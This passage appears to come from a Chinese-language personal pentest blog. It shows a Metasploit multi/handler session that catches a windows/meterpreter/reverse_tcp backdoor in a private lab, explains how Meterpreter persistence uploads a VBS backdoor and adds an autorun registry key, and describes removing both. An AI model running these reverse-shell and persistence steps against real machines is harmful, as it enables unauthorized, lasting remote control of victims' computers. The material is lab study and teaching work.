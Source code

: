 同样使用handler模块链接后门，payload使用windows/meterpreter/reverse_tcp；

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.43.100
LHOST => 192.168.43.100
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.43.100:4444 
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:49365) at 2018-01-12 15:27:15 +0800

meterpreter > getuid
Server username: Go0s-PC\Go0s
```

设置时间间隔为10s，很快；

重启目标机，仍然上线，还是很稳的；

其脚本主要做的工作：

①、上传后门到目标机器【meterpreter的upload命令】；

②、再写自启动注册表【reg】；

根据执行脚本时提示的vbs文件和注册表位置，进行删除后门；

```
Executing script C:\Users\Go0s\AppData\Local\Temp\SAaYfc.vbs
Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\irZnsVkfdRUZIB
```

![QQ20180112-153934@2x.png](/assets/images/2018-01-12/998771956.png)

vbs文件直接删去；

![QQ20180112-154355@2x.png](/assets/images/2018-01-12/3178275181.png)

对于注册表，直接打开 `regedit` 注册表编辑器，`Ctrl+f` 全局搜索关键字【我这是irZnsVkfdRUZIB】，也是直接删去即可；

## oth.

Meterpreter 下可以使用的脚本拓展在post/平台/应用点/脚本；

这post模块目录下有许多模块提供使用，又一次感到MSF真鸡儿牛逼；


[Go0s]: ~ 